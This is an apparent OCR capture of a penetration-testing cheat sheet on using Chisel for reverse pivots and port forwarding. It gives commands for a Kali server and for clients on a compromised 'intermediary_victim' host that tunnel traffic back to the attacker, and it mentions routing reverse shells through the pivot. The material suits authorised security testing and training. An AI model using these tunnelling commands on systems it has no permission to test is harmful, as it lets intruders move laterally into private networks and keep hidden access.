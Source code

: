 #### -- Reverse Pivot -- ####

Chisel is like SSH tunneling but everything is reversed.

Victim tunnels to hacker.

Victim == client

Hacker == server

https://github.com/richardcurteis/Cheat-Sheets-and-Guides/blob/master/Reverse%20Pivot.png

Set up server to listen on port 8000. Be verbose...

```kali:~# chisel server -p 8000 -reverse -v```

Create client and connect to server tell server where to listen and which port to open (ip:port) then where to forward traffic to, ```$target_ip:$target_port```.

```intermediary_victim:~# chisel client $kali_ip:8000 R:127.0.0.1:8001:$target_ip:$target_port```

NOTE: *Look at fingerprint option to ensure client only connects to intended servers*

Example: ```... --fingerprint 11:22:33...```

#### -- Port Forward/Local Pivot -- ####

If we have a shell on a non-routable mnachine to our attacking machine, set up the port forward on a machine that can connect to both and forward traffic through.

Once set up send reverse shell etc to intermediary machine to be routed through to attacker.

##### Spin up server on kali #####
```kali:~# chisel server -p 8000 -reverse -v```

##### Link client to server and forward traffic on localhost from 9001 to address foo on port bar. #####

```chisel client $kali_ip:8000 intermediary_port:target_ip:target_port```

```intermediary_victim:~# chisel client $kali_ip:8000 9001:127.0.0.1:8001```
